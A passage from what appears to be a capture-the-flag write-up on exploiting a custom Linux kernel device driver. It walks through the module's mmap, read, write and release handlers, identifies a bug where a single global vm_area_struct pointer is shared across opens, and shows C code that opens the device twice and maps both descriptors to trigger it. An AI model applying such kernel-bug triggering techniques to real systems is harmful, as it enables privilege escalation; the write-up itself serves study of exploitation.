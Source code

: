 ```c
}
```

### What does it do

1.  In `my_mmap` function, we see it maps directly our userspace page to three physical page.

    [vm_start, vm_start+0x1000) -> page3
    [vm_start+0x1000, vm_start+0x2000) -> page1
    [vm_start+0x2000, vm_start+0x3000) -> page2

    Also saves the vm_are_struct object to global variable `backing_vma`.

1. We can read the page2 via `my_read`, not only via `[vm_start+0x1000, vm_start+0x2000)`

1. Function `my_write` is so annoying. But now we just need to know we can write to the page1 throught this function. After that, it releases 4 pages that allocated from `my_open`, and it unmaps our userspace page via global variable `backing_vma`.

3. Function `my_release` release 4 page objects that allocated from `my_open`. It also unmaps our userspace page via global variable `backing_vma`.

## The bug

Did you notice that the module saves and checks vm_are_struct object by a global variable ?

What if we open the dev file two times ( we will have 2 fds ) and mmap with two fds ?

```c
    int devfd1 = open(devfile, O_RDWR);
    int devfd2 = open(devfile, O_RDWR);

    int ran = open("/dev/urandom", O_RDONLY);

    int fds[0x3000 / 0x20] = { 0 };
    uint i = 0;

    char buf[0x321];
    read(ran, buf, sizeof(buf));
    buf[0] = 0;

    m1 = mmap((void*)0x1337000, 0x3000,
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd1, 0);
    if (m1 == MAP_FAILED) {
        panic("mmap(m1)");
    }

    m1[0] = 'A';
    m1[0x1000] = 'B';
    m1[0x2000] = 'C';

    m2 = mmap((void*)0x1347000, 0x3000,
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd2, 0);
    if (m2 == MAP_FAILED) {
        panic("mmap(m2)");
    }

    m2[0] = 'A';
    m2[0x1000] = 'B';
    m2[0x2000] = 'C';
```
